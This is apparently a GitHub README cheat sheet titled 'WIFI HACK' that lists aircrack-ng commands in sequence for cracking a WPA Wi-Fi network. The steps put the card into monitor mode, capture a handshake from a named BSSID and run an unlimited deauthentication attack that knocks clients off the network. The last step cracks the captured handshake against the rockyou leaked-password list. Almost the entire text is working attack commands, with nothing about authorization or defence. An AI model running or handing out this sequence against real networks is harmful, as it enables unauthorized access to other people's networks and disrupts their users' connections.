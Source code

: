 # _*WIFI HACK*_

`! See interfaces`

    ifconfig
  
 `!kill processes`
 
    sudo airmon-ng check kill
  
`!Start monitor mode`

    sudo airmon-ng start wlp2s0
  
`!Verify that monitor mode is used`
 
    sudo airmon-ng
    
`! Get the AP's MAC address && BSSID and channel`

    sudo airodump-ng wlp2s0mon
    
 `!1st Window:
!Make sure you replace the channel number and bssid with your own
!Replace hack1 with your file name like capture1 or something `

    sudo airodump-ng -w /home/astute/temp/handshake -c 1 --bssid B8:C1:A2:2E:39:14 wlp2s0mon
  
`!2nd Window - deauth attack
!Make sure you replace the bssid with your own`

    sudo aireplay --deauth 0 -a B8:C1:A2:2E:39:14 wlp2s0mon
    
 `crack the handshake.cap`
 
    sudo aircrack-ng handshake.cap -w /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt

`don't forget to stop monitor mode`

    sudo airmon-ng stop wlp2s0mon
    
